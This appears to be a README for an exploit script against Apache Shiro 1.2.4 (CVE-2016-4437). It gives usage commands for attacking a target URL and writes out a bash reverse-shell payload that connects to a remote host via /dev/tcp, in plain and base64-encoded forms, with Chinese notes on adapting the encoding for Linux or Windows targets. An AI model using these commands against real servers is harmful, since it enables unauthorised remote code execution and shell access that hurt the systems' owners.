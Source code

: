 # Readme
Apache Shiro 


<details>
<summary>Shiro 1.2.4 [点击展开] </summary>
```
+-------------------------------------------------------------------------------------------------------+
+ DES: By zhzyker as https://github.com/zhzyker/exphub                                                  +
+      Vuln Name: CVE-2016-4437 | Shiro 550  |  Shiro 1.2.4                                             +
+                                                                                                       +
+      Nc shell need encode command: http://www.jackson-t.ca/runtime-exec-payloads.html                 +
+      Original: bash -i >&/dev/tcp/1.1.1.1/233 0>&1                                                    +
+      Encoding: bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvMjMzIDA+JjE=}|{base64,-d}|{bash,-i}  +
+-------------------------------------------------------------------------------------------------------+
+ USE: python3 <filename> <url>                                                                         +
+ EXP: python3 shiro-1.2.4_rce.py http://1.1.1.1:8080                                                   +
+ VER: Apahce Shiro <= 1.2.4                                                                            +
+-------------------------------------------------------------------------------------------------------+
```

脚本内置了base64编码，但是仅适配Linux，如果测试Windows手动删除base64加密部分即可  
也可以前往以下连接手动base64加密  
http://www.jackson-t.ca/runtime-exec-payloads.html
Original: 
```
bash -i >&/dev/tcp/1.1.1.1/233 0>&1     
```

Encoding：
```
bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvMjMzIDA+JjE=}|{base64,-d}|{bash,-i}
```

利用示例：  
![images](https://github.com/zhzyker/exphub/tree/master/shiro/image/1.gif)
![images](https://github.com/zhzyker/exphub/tree/master/shiro/image/2.gif)

</details>
